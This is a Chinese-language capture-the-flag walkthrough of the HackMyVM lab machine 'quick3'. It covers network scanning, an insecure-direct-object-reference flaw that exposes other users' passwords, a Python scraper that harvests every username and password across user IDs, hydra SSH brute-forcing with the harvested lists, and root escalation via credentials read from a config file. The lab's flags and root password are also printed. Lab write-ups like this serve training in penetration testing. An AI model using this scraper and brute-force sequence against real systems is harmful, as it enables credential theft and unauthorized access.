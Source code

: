 kali和quick3都设置NAT模式
>|   |   |   |
|---|---|---|
|quick3|easy|漏洞挖掘、越权测试、python爬虫、脚本编写、hydra 爆破、凭据收集|
# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.133
```
得到只开放了80和22端口

访问80web
dirb目录扫描
找到后台`http://192.168.44.133/customer/

# 水平越权
任意用户注册账号，登录
查看用户信息，url有?id，尝试修改id，发现水平越权漏洞，查看其他用户密码

# 写爬虫爬取所有用户密码
```python
import os 
import re
from datetime import datetime
import requests
import urllib3
from colorama import init
init(autoreset = True)

def write1(user_match):
	curr_dir = os.getcwd()
	vuln_file = '/user_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{user_match}"+"\n")
	f.close()
	
def write2(pass_match):
	curr_dir = os.getcwd()
	vuln_file = '/pass_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{pass_match}"+"\n")
	f.close()	

def poc_url(id):
	urllib3.disable_warnings()
	url1 = f"http://192.168.44.133/customer/user.php?id={id}"
	proxy = {
		'http':'http://127.0.0.1:8080',
		'https':'http://127.0.0.1:8080'
	}
	headers = {
		"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
		"Cookie":"PHPSESSID=dv5jvd9q7d5e6tk0itdfj5f96d"
	}
	res = requests.get(url1,headers=headers,proxies=None,verify=False,timeout=5)
	if res.status_code == 200:
		user_match = re.search(r'<input type="text" id="name" name="name" value="([^"]+)" required>',res.text).group(1).lower().split()[0]
		pass_match = re.search(r'<input type="password" id="oldpassword" name="oldpassword" value="([^"]+)" required>',res.text).group(1)
		
	write1(user_match)
	write2(pass_match)

if __name__ == '__main__':
	for i in range(1,30):
		poc_url(i)




# python写程序遇到了这个问题,vim打开时最后一个字符都是^M，导致输出的文本不可读出内容，只能用文本编辑器打开。file多了个with CR line terminators，转换成unix也不能解决，最后把换行符号换成"\n"才解决！

```

# 爆破SSH
```C
hydra -L user_20240416.txt -P pass_20240416.txt -t 16 ssh://192.168.44.133 
```
# 拿Flag
```C
cat user.txt
HMV{717f274ee66f8541a3031f175f615e72}
```

# 提权
```C
ls /var/www/html
cat /var/www/html/customer/config.php
'root', 'fastandquicktobefaster'
su root

HMV{f178761104e933f9341f13f64b38538a}
```